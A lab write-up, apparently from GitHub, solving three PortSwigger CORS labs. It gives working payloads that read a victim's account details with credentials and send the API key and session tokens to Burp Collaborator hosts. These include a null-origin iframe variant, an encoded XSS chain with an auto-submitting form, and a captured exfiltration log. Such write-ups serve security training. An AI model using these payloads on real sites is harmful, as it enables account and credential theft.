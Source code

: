 # Lab: CORS vulnerability with basic origin reflection

The first thing we need is to find out which resources wwill return the "Access-Control-Allow-Credentials" or "Access-Control-Allow-Origin" in order to exploit this acceptence and retrieve the admin's API key. After looking around we find that the /accountDetails return the desired cookies:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://exploit-ac991f221e40a77180f10053017a009a.web-security-academy.net
Access-Control-Allow-Credentials: true

{
  "username": "wiener",
  "email": "",
  "apikey": "bTAkQD1TJZNEwe4addvO8IXN6E0Mkbma",
  "sessions": [
    "NHIGZYXE99Hknr9RSxVwgks0Pglm8RXC"
  ]
}
```
Next we need to use this in order to relax the SOP machanism. This can be done by sending this request before the API key read like so:
```html
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://ace81f9f1ed1a796808c002f00de003e.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();


function reqListener() {
location='//sjfwiq40ukmy29m2y3kxopepsgy7mw.burpcollaborator.net/log?key='+this.responseText;
};
</script>
```

# Lab: CORS vulnerability with trusted null origin

Note that if we send the accountDetails with Origin: null we get:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true

{
  "username": "wiener",
  "email": "",
  "apikey": "7N5RtvnH051NW4AUKG1t0Op95F7tjsUw",
  "sessions": [
    "zj6zHj1zvowaydhulr1xD87JEoTtWwKd"
  ]
}
```

Using the Iframe technique to execute the call to accountDetails with an Origin: null in order to get the relaxation for SOP:
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://acf01f931f1adfe380c04890007200bb.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();
function reqListener() {
location='https://vqplle5qte9nzasa3mi75wk1rsxkl9.burpcollaborator.net/log?key='+this.responseText;
};</script>"></iframe>
```

# Lab: CORS vulnerability with trusted insecure protocols

We first need to find the MITM target to insert our script to. Note that the check stock request is for HTTP and is vulnerable to XSS (productId can be html and it will be embedded in the page).
We then want to get to the accountDetails of the admin and send his API key to our server (burp collaborator).
In order to do that we need to construct:
1. An HTML page that submites a request for the account details
2. When this request is sent, we want to log the response (with the API) to our collaborator so we need to add an onload callback function to send the response to our server
3. An HTML page that will exploit the product-id vulnerability and inject our malicious HTML page into the weak HTTP new page that we get


We then construct the script that the victim's browser will execute (from a valid origin and CORS) like so:

```html
<script>var req = new XMLHttpRequest();req.onload = reqListener;req.open('get','https://ac7e1f0b1fc1ccd980822389001000f7.web-security-academy.net/accountDetails',true);req.withCredentials = true;req.send();function reqListener() {location='http://69dxye6i0e0v66jydjfhs1rxmosfg4.burpcollaborator.net/log?key='+this.responseText;};</script>
```
Encoded to:
```http
%3c%73%63%72%69%70%74%3e%76%61%72%20%72%65%71%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%72%65%71%2e%6f%6e%6c%6f%61%64%20%3d%20%72%65%71%4c%69%73%74%65%6e%65%72%3b%72%65%71%2e%6f%70%65%6e%28%27%67%65%74%27%2c%27%68%74%74%70%73%3a%2f%2f%61%63%37%65%31%66%30%62%31%66%63%31%63%63%64%39%38%30%38%32%32%33%38%39%30%30%31%30%30%30%66%37%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%61%63%63%6f%75%6e%74%44%65%74%61%69%6c%73%27%2c%74%72%75%65%29%3b%72%65%71%2e%77%69%74%68%43%72%65%64%65%6e%74%69%61%6c%73%20%3d%20%74%72%75%65%3b%72%65%71%2e%73%65%6e%64%28%29%3b%66%75%6e%63%74%69%6f%6e%20%72%65%71%4c%69%73%74%65%6e%65%72%28%29%20%7b%6c%6f%63%61%74%69%6f%6e%3d%27%68%74%74%70%3a%2f%2f%36%39%64%78%79%65%36%69%30%65%30%76%36%36%6a%79%64%6a%66%68%73%31%72%78%6d%6f%73%66%67%34%2e%62%75%72%70%63%6f%6c%6c%61%62%6f%72%61%74%6f%72%2e%6e%65%74%2f%6c%6f%67%3f%6b%65%79%3d%27%2b%74%68%69%73%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%3b%7d%3b%3c%2f%73%63%72%69%70%74%3e
```
Now we can construct the html for the victim that will trigger our request for the API from the user with the right CORS creds. The final HTML is:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://stock.ac7e1f0b1fc1ccd980822389001000f7.web-security-academy.net/">
      <input type="hidden" name="productId" value="&lt;script&gt;var&#32;req&#32;&#61;&#32;new&#32;XMLHttpRequest&#40;&#41;&#59;req&#46;onload&#32;&#61;&#32;reqListener&#59;req&#46;open&#40;&apos;get&apos;&#44;&apos;https&#58;&#47;&#47;ac7e1f0b1fc1ccd980822389001000f7&#46;web&#45;security&#45;academy&#46;net&#47;accountDetails&apos;&#44;true&#41;&#59;req&#46;withCredentials&#32;&#61;&#32;true&#59;req&#46;send&#40;&#41;&#59;function&#32;reqListener&#40;&#41;&#32;&#123;location&#61;&apos;http&#58;&#47;&#47;69dxye6i0e0v66jydjfhs1rxmosfg4&#46;burpcollaborator&#46;net&#47;log&#63;key&#61;&apos;&#43;this&#46;responseText&#59;&#125;&#59;&lt;&#47;script&gt;" />
      <input type="hidden" name="storeId" value="1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Then we send this to the users and get in our collaborator:
```http
GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22QDMUbLzOHOPwQpsAOsyt8YdLkDdzKwhY%22,%20%20%22sessions%22:%20[%20%20%20%20%229PYFFJr32Ji9qO36U9A7cxQvfRAWzqPC%22%20%20]} HTTP/1.1
Host: jm9qtus85o2ux53s9rw8s435yw4nsc.burpcollaborator.net
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://stock.aca71f8c1f956c34c0da6ff4009d001f.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```
Which can be decoded as URL to get:
```
{  "username": "administrator",  "email": "",  "apikey": "QDMUbLzOHOPwQpsAOsyt8YdLkDdzKwhY",  "sessions": [    "9PYFFJr32Ji9qO36U9A7cxQvfRAWzqPC"  ]}
```